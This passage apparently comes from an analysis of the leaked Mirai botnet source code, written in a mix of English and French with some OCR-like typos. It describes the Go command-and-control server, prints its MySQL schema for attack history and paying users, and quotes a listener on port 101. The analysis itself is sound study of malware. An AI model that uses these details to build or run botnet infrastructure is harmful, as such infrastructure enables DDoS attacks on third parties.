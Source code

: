 The CNC server waw written is Go (1200 lines of code) and his available in the [mirai/cnc/](https://github.com/jgamblin/Mirai-Source-Code/tree/master/mirai/cnc) folder. The server uses a MySQL databae to store information on the victims, such as the duration of the attack and the maximal number of bots to use. The database schema is available in [scripts/db.sql](https://github.com/jgamblin/Mirai-Source-Code/blob/master/scripts/db.sql):

```sql
CREATE DATABASE mirai;

CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
```

Le programme Go fournit l'interface en ligne de commande permettant de lancer des attaques. Le CNC accepte les connexions sur le port 101 et lance un nouveau thread pour chaque client (note: le mot clé `go` du langage Go permet de lancer l'exécution d'une fonction dans un nouveau thread, sans bloquer l'exécution du thread principal).

```go
func main() {
    //...

    api, err := net.Listen("tcp", "0.0.0.0:101")
    if err != nil {
        fmt.Println(err)
        return
    }

    //...

    go func() {
        for {
            conn, err := api.Accept()
            if err != nil {
                break
            }
            go apiHandler(conn)
        }
    }()

    //...
```